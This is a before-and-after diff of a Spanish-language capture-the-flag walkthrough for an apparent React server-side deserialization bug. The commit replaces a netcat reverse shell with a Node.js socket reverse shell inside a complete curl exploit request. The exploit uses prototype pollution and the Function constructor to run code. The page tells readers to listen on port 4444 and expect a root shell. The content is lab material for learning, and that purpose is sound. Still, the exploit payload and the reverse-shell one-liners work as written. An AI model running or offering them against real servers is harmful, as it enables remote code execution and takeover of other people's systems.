

Before and after one commit to yz9yt/React2Shell-CTF, a Markdown page: WALKTHROUGH_ES.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Fix Reverse Shell: Use Node.js native payload instead of netcat

````diff
--- a/WALKTHROUGH_ES.md
+++ b/WALKTHROUGH_ES.md
@@ -126,13 +126,15 @@ require('child_process').exec('nc TU_IP 4444 -e /bin/sh');
 ```
 
 ### 3. Envía el Exploit
-Para facilitarlo, aquí tienes el comando completo (reemplaza `TU_IP`):
+Usaremos un payload nativo de Node.js para la conexión inversa. Esto es más robusto y no depende de versiones específicas de `netcat`.
+
+Aquí tienes el comando completo (reemplaza `TU_IP`):
 
 ```bash
 curl -i -X POST http://localhost:5555/ \
   -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW" \
-  -d $'------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\\"$B1337\\\"}","_response":{"_prefix":"require(\'child_process\').exec(\'nc TU_IP 4444 -e /bin/sh\');","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="1"\r\n\r\n"$@0"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="2"\r\n\r\n[]\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--\r\n'
+  -d $'------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\\"$B1337\\\"}","_response":{"_prefix":"var net=process.mainModule.require(\'net\'),cp=process.mainModule.require(\'child_process\'),sh=cp.spawn(\'/bin/sh\',[]);var client=new net.Socket();client.connect(4444,\'TU_IP\',function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="1"\r\n\r\n"$@0"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="2"\r\n\r\n[]\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--\r\n'
 ```
 
-Si tienes éxito, revisa tu terminal donde estabas escuchando. ¡Deberías tener una shell!
-Prueba escribir: `whoami` -> debería devolver `root` (o `node`).
+Si tienes éxito, revisa tu terminal donde estabas escuchando (`nc -lvnp 4444`). ¡Deberías tener una shell!
+Prueba escribir: `whoami` -> debería devolver `root`.
````
Also changed, not shown: WALKTHROUGH_EN.md (+6 -4 lines).
